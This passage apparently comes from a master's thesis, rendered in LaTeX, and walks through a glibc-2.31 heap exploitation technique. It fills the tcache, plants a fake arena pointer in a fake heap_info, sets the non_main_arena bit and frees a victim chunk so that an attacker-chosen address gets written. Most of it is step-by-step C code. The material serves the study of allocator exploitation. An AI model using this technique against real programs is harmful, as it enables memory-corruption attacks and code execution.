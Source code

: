 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\tch{tcache}
\newcommand*\fb{fast bins}
\begin{document}
The next step as we told, the location of fake arena is located at an offset of the heap so we have to allocate fake chunks until reach the fake new arena:
\begin{lstlisting}[language=c,frame=tlrb]
uint64_t* user_mem = malloc(MAX_SIZE);
while((long long)user_mem < new_arena_value){
	 /* ... */
	user_mem = malloc(MAX_SIZE);
}
\end{lstlisting}

As we told, this approach use the \fb{} approach, so, we need a chunk in range of the \fb{} chunk, also, a pointer to chunk:

\begin{lstlisting}[language=c,frame=tlrb]
uint64_t* fastbin_chunk = malloc(0x50)
uint64_t* chunk_ptr = fastbin_chunk - 2
\end{lstlisting}
This file work on \libc{-2.31} which support \tch{} as the first mechanism, so, like \lstinline{fastbin_dup}, all we need is to fill up the \tch{} to force the heap manager role back to the \fb{}

\begin{lstlisting}[language=c,frame=tlrb]
uint64_t* tcache_chunks[7];
for(int i = 0; i < 7; i++){
	tcache_chunks[i] = malloc(0x50);
}
for(int i = 0; i < 7; i++){
	free(tcache_chunks[i]);
}
\end{lstlisting}

The next step is setting up \lstinline{ar_ptr} of heap structure in the fake heap. This field is the first one in the structure at offset 0x00.

\begin{lstlisting}[language=c,frame=tlrb]
fake_heap_info[0] = (uint64_t) fake_arena
\end{lstlisting}

Now we have to set \lstinline{non_main_arena} bit in the size field of our victim chunk:

\begin{lstlisting}[language=c,frame=tlrb]
chunk_ptr[1] = 0x60 | 0x4;
\end{lstlisting}

Everything is set up now, all we need is call free function for the victim chunk:

\begin{lstlisting}[language=c,frame=tlrb]
free(fastbin_chunk);
\end{lstlisting}

\begin{figure}[h!]
\caption{the address of our fake arena overwritten on target location}
\label{fig:fakearens}
\end{figure}
\end{document}
